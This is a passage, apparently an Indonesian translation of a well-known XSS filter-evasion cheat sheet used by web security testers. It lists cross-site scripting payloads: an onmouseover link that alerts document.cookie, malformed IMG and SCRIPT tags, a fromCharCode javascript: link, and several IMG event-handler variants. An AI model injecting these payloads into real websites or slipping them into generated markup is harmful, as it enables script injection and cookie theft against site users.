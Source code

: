 Chrome secara otomatis menyisipkan tanda kutip yang hilang untuk Anda. Jika Anda mengalami masalah, coba abaikan tanda kutip tersebut dan Chrome akan menempatkan tanda kutip yang hilang dengan benar di URL atau skrip untuk Anda:

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

(Dikirimkan oleh David Cross, Terverifikasi di Chrome)

### Tag IMG yang Tidak Berformat

Metode XSS ini menggunakan mesin rendering yang dilonggarkan untuk membuat vektor XSS dalam tag IMG (yang perlu dienkapsulasi dalam tanda kutip). Kami yakin pendekatan ini awalnya dimaksudkan untuk memperbaiki pengodean yang ceroboh dan juga akan membuatnya jauh lebih sulit untuk mengurai tag HTML dengan benar:

```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

(Awalnya ditemukan oleh Begeek, tetapi dibersihkan dan dipersingkat agar dapat berfungsi di semua browser)

### fromCharCode

Jika sistem tidak mengizinkan tanda kutip apa pun, Anda dapat `eval()` `fromCharCode` dalam JavaScript untuk membuat vektor XSS apa pun yang Anda perlukan:

```html
<a href="javascript:alert(String.fromCharCode(88,83,83))">Klik Saya!</a>
```

### Tag SRC Default untuk Melewati Filter yang Memeriksa Domain SRC

Serangan ini akan melewati sebagian besar filter domain SRC. Memasukkan JavaScript ke dalam event handler juga berlaku untuk semua jenis injeksi tag HTML menggunakan elemen seperti Form, Iframe, Input, Embed, dll. Ini juga memungkinkan penggantian setiap event yang relevan untuk jenis tag, seperti `onblur` atau `onclick`, yang menyediakan variasi ekstensif dari injeksi yang tercantum di sini:

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

(Dikirimkan oleh David Cross dan diedit oleh Abdullah Hussam)

### Tag SRC Default dengan Membiarkannya Kosong

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### Tag SRC Default dengan Membiarkannya Kosong Sepenuhnya

```html
<IMG onmouseover="alert('xxs')">
```
